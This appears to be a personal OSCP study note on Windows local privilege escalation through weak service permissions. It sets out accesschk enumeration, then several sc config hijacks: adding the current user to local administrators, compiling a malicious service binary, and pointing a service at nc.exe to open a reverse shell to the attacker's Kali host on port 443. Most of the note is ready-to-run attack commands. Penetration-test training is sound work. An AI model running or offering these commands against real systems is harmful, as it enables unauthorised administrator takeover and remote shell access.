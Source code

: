 Guide:
```
https://www.fuzzysecurity.com/tutorials/16.html
```


OSCP Book pg 528
```
https://grimmie.net/cyberseclabs-hijack-write-up/#Drupalgeddon
```

Download old version:
```
https://xor.cat/2017/09/05/sysinternals-accesschk-accepteula
```

[[4._File Transfers#Certutil]]

#### Weak Service Permissions
Check Program Files directory recursively for writable files:
```
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```

```batch - target
accesschk.exe /accepteula -uws "Everyone" "C:\Program Files"
```

IF YOU HAVE A USERNAME:
```
.\accesschk.exe -uwcqv %username% * -accepteula
```


NOTE:
>The SERVICE_ALL_ACCESS permission allows any user on the system to take control of and modify the parameters of the service.

```
sc qc OpenSSHd
```


Now we have a few options to exploit:

#### 1. Add current user to local administrators (Method 1):
```
sc config "OpenSSHd" binPath= "net localgroup administrators %username% /add"
```

```
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

[[12._ACCESSCHK#Restart the service]]

OR [[___.Misc Commands#Restart host]]

Check your user was added to local admins:

```
net localgroup administrators
```

#### 2. Add current user to local administrators (Method 2):

Open windows_service.c in a text editor and replace the command used by the system() function to (line 15): 

[[windows_service.c]]

```mousepad - kali
cmd.exe /k net localgroup administrators %username% /add
```

Exit the text editor and compile the file by typing the following in the command prompt: 

```bash - kali
x86_64-w64-mingw32-gcc windows_service.c -o x.exe 
```

(NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')

Send to target.

[[12._ACCESSCHK#Restart the service]]
Check your user was added to local admins:

```batch - windows
net localgroup administrators
```

#### 3. nc reverse shell:

>SERVICE_START_NAME must say NT AUTHORITY\LocalService


```batch - target
sc config SSDPSRV binpath= "C:\WINDOWS\Temp\nc.exe -nv $KALI 443 -e C:\WINDOWS\System32\cmd.exe"
```

```
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

[[1._rlwrap]]

[[12._ACCESSCHK#Restart the service]]

#### 4. reverse.exe

[[1._Reverse Shells (WIN)#MSFVenom]]
```
sc config SSDPSRV binpath= "C:\WINDOWS\Temp\Tools\reverse.exe"
```

```
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

[[1._rlwrap]]

[[12._ACCESSCHK#Restart the service]]

#### PowerShell
Same thing in PowerShell:
```powershell - target
Get-ChildItem "C:\Program Files" -R
ecurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

![[2._Automated Tools#PowerUp ps1]]


#### Restart the service
IF YOU RUN INTO AN ERROR (SEE PIC)!  FOLLOW: https://sohvaxus.github.io/content/winxp-sp1-privesc.html


Set SSDPSRV to AUTOMATIC
NOTE: There is a space between = and auto. This is important, else the command will fail.
`sc config SSDPSRV start= auto`

Double check if it's set to AUTOMATIC (or AUTO_START)
`sc qc SSDPSRV`


```batch - windows
sc stop SSDPSRV
```

```batch - windows
sc start SSDPSRV
```

OR

```batch - windows
net stop SSDPSRV
```

```batch - windows
net start SSDPSRV
```


OR [[___.Misc Commands#Restart host]]

